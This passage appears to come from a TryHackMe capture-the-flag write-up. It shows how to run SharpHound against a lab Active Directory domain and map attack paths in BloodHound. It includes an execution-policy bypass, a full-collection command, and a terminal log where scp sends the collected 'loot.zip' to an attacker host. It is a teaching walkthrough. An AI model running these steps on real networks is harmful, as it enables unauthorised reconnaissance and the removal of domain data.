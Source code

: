 `POST{P0W3RV13W_FTW}`

## Enumeration w/ Bloodhound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

Well be focusing on how to collect the .json files and how to import them into Bloodhound

I have already taken the time to put SharpHound onto the machine

![](https://i.imgur.com/BAT2ZAH.png)

**BloodHound Installation -**

1. `apt-get install bloodhound`
2. `neo4j console` - default credentials -> neo4j:neo4j

**Getting loot w/ SharpHound -**

1. `powershell -ep bypass` same as with PowerView
2. `. .\Downloads\SharpHound.ps1`
3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
   1. ![](https://i.imgur.com/Qv1Abv6.png)
4. Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if you’re using ssh

**Mapping the network w/ BloodHound -**

1. `bloodhound` Run this on your attacker machine not the victim machine
2. Sign In using the same credentials you set with Neo4j
   1. ![](https://i.imgur.com/thfZUOy.png)
3. Inside of Bloodhound search for this icon ![](https://i.imgur.com/rXgtiuK.png) and import the loot.zip folder

note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files

4. To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from.

![](https://i.imgur.com/4LSMKBX.png)

The queries can be as simple as find all domain admins -

![](https://i.imgur.com/Eced2zF.png)

Or as complicated as shortest path to high value targets -

![](https://i.imgur.com/1orYd9p.png)

There are plenty of queries to choose from and enumerate connections inside of the network

```
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -Zip
FileName loot.zip
------------------------------------------------
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
Compressing data to C:\Users\Administrator\20201120142947_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:29 PM on 11/20/2020! Happy Graphing!

PS C:\Users\Administrator> scp -o StrictHostKeyChecking=no .\20201120142947_loot.zip kali@10.8.106.222:/home/kali/CTFs/tryhackme
Warning: Permanently added '10.8.106.222' (ECDSA) to the list of known hosts.
```